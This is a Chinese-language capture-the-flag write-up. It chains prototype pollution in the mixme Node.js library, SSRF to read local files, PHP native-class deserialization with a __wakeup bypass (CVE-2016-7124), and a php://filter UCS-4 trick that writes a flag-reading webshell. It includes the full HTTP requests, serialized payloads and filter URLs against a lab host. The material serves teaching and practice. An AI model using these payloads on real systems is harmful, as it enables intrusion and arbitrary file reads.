




### 0x00 思路

题目直接给出部分的nodejs源代码 -> 原型链污染漏洞绕过登录 -> 后台SSRF -> .listing 本地文件信息泄露 ->原生类反序列化读取本地的shellme.php -> 绕过php exit -> 执行readfile来读取flag

### 0x01 题目解答

源码

```javascript
const http = require("http");
const express = require("express");
const bodyParser = require("body-parser");
const mixme = require("mixme");
const session = require("express-session");
const randomize = require("randomatic");
const morgan = require("morgan");

const app = express();
app.set("json escape", true);
app.use(morgan("short"));
app.use(bodyParser.urlencoded({ extended: true })).use(bodyParser.json());
// app.use(express.json());
app.use(
    session({
        name: "session",
        secret: randomize("aA0", 16),
        resave: false,
        saveUninitialized: false,
    })
);

const Super = {
    passone: process.env.sperson,
};

function blacklist(url) {
    var evilwords = ["DirectoryIterator", "FilesystemIterator", "GlobIterator"];
    var arrayLen = evilwords.length;
    for (var i = 0; i < arrayLen; i++) {
        const trigger = url.includes(evilwords[i]);
        if (trigger === true) {
            return true;
        }
    }
}

//TODO
//get url content

app.post("/getinfo", (req, res) => {
    console.log(req.body);
    if (req.body.userid === undefined || req.body.key === undefined) {
        res.send("you want to post null?");
    } else {
        let userid = req.body.userid;
        let key = req.body.key;
        console.log(userid);
        console.log(key);
        if (Super[userid] === key) {
            res.send(
                "admin!\nyou can goto ***** endpoint to hack!"
            );
        } else {
            res.send("You are not the Super, so I cannot give you the truth.");
        }
    }
});

app.all("/", (req, res) => {
    let data = { userid: [], key: [] };
    console.log(data);
    console.log(req.body);
    if (req.method == "POST" && req.body) {
        data = mixme.merge(data, req.body);
        req.session.data = data;
        // console.log("After MERGE: " + Super["test"]);
    }
    res.send("to be admin and you will find it!");
});

app.listen(3000, () => console.log(`Example app listening on port 3000!`));
```

分析源码发现，如果需要`/getinfo`返回对应秘密信息，就必须要是super用户，但是super中的值信息是系统变量我们没有办法获取，因此必须要想办法新加一个用户上去。经过审计源码，发现题目使用了mixme，而mixme是存在原型链污染漏洞的。

```
POST / HTTP/1.1
Host: 192.168.43.184:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Cache: no-cache
Content-Length: 31
Connection: close

{"__proto__": {"test": "test"}}
```

所以在此处完成原型链污染来加一个账户上去，之后便可以用我们新加的账户来认证登录

```
POST /getinfo HTTP/1.1
Host: 192.168.43.184:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Cache: no-cache
Content-Length: 20
Connection: close

userid=test&key=test
```

登录完成之后会返回一个隐蔽的用户接口

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 59
ETag: W/"3b-gWMHzK5svjksGogMofwDWWe4h5o"
Date: Wed, 19 May 2021 15:56:15 GMT
Connection: close

admin!
you can goto sEcRet_sSrF_h0den_aPi endpoint to hack!
```

初次访问这个端口会提示缺少`s`参数，我们猜测此处需要补充参数并且添加对应的内容

首先随便访问一个本地 `IP:PORT/File ` 会发现如下报错，因为这个 http前面还加了反斜杠，所以就猜测此接口已经设定了对应的 `IP:PORT`，那么我们能够控制的只有 `File` 位置，所以就利用 SSRF 字典来Fuzz常见的文件。



经过Fuzz之后可以找到 `.listing` 文件，该文件中就包含了当前目录下面的各个文件名

```
total 32
drwxrwxrwx 1 root root    4096 May 20 01:44 .
-rw-r--r-- 1 root root       0 May 20 01:44 .listing
-rw-r--r-- 1  502 dialout  329 May 20 01:37 shellme.php
drwxr-xr-x 1 root root    4096 May 20 01:28 ..
-rw-r--r-- 1 root root    1410 May 19 14:20 y0u_w1ll_s3e_Me.php
-rw-r--r-- 1 root root    1038 May 19 09:15 y0u_w1ll_s3e_Me.txt
-rw-r--r-- 1 root root      18 May 18 14:20 info.php
```

首先我们可以访问 info.php来获取对应的php版本等相关信息

```
http://192.168.43.184:3000/sEcRet_sSrF_h0den_aPi?s=info.php
```



可以看到是php7.0.9版本，并且限制限制了众多执行命令的函数



open_basedir 也被限制在 `/var/www/`


之后我们可以访问 ` y0u_w1ll_s3e_Me.txt` 文件来读取对应的源代码

```php
<?php
error_reporting(0);
// highlight_file(__FILE__);

class Verify
{
    public $classname;
    public $param;
    public $checkMethod;
    public function __construct()
    {
        $this->classname = "SayHi";
        $this->param = array("C", "T", "F", "E", "R");
        $tmp = new $this->classname($this->param);
    }

    public function __destruct()
    {
        if (strpos($this->param, 'flag') !== false || strpos($this->param, '?') !== false || strpos($this->param, '*') !== false) {
            die('You want to hack me?');
        } else {
            $text = new $this->classname($this->param);
            foreach ($text as $t) {
                echo ($t);
            }
        }
    }

    public function __wakeup()
    {
        $this->checkMethod = new Check;
        if ($this->checkMethod->vaild($this->param) && $this->checkMethod->vaild($this->class)) {
            echo ("You are a good man!");
        } else {
            die('You are a hacker?');
        }
    }
}

class SayHi
{
    public $a;
    public function __construct($a)
    {
        $this->a = $a;
        array_push($this->a, "HELLO");
        return $this->a;
    }
}

class Check
{
    public function vaild($code)
    {
        $pattern = '/[flag|file|!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
        if (preg_match($pattern, $code)) {
            return false;
        } else {
            return true;
        }
    }
}

if (isset($_GET['p'])) {
    unserialize($_GET['p']);
} else {
    $v = new Verify;
}
```

经过对上面的源代码进行审计可以发现，并没有危险的类可以使用，那么就只能使用原生类进行反序列化操作，并且存在 `__wakeup() ` 来对参数和类名进行了限制，但是联想到 php7.0.9是存在 [CVE-2016-7124](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7124) 漏洞的，因此可以绕过对应的校验。 随后使用原生类 `SplFileObject` 来对文件进行读取即可。并且根据 `.listing` 文件显示，我们还有一个 `shellme.php` 的源码并不知道。

序列化payload生成

```
<?php
class Verify
{
    public $classname = 'SplFileObject';
    public $param = "./shellme.php";
    public $checkMethod;
}

$poc = new Verify();
echo serialize($poc);
```

读取shellme.php的源代码

```
http://192.168.43.184:3000/sEcRet_sSrF_h0den_aPi?s=y0u_w1ll_s3e_Me.php?p=O:6:%22Verify%22:4:{s:9:%22classname%22;s:13:%22SplFileObject%22;s:5:%22param%22;s:13:%22./shellme.php%22;s:11:%22checkMethod%22;N;}%22);
```



从源码上面的分析可以知道，首先提醒了flag的位置，其次可以通过 `file_put_contents` 函数写一个 webshell进去，此处限制了一些编码器但是并没有对 `UCS-4`编码器限制，所可以我们可以利用如下payload写入读flag的webshell

payload的生成脚本

```
$ucscode = iconv("UCS-4LE", "UCS-4BE", "<?php print_r(file_get_contents('/var/www/flag'));?>");
echo "php://filter/convert.iconv.UCS-4LE.UCS-4BE|" . $ucscode . "/resource=z.php";
```


```
http://192.168.43.184:3000/sEcRet_sSrF_h0den_aPi?s=shellme.php?c=php://filter/convert.iconv.UCS-4LE.UCS-4BE|hp?%3Crp%20p_tniif(rg_elc_teetno(stnav/%27ww/rlf/w)%27ga%3E?;)/resource=z.php
```


curl访问得到flag

```
❯ curl -i http://192.168.43.184:3000/sEcRet_sSrF_h0den_aPi\?s\=z.php
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 107
ETag: W/"6b-NSzSR8rMungbHHh23aYfDZsoa2M"
Date: Thu, 20 May 2021 01:38:19 GMT
Connection: keep-alive
Keep-Alive: timeout=5

hp?<xe p)(tiphp;f//:etlioc/rrevnci.t.vno-SCU.EL4-SCU|EB4flag{9566cc50d919461219718fb4f747c48f}
ser/cruo.z=e%
```

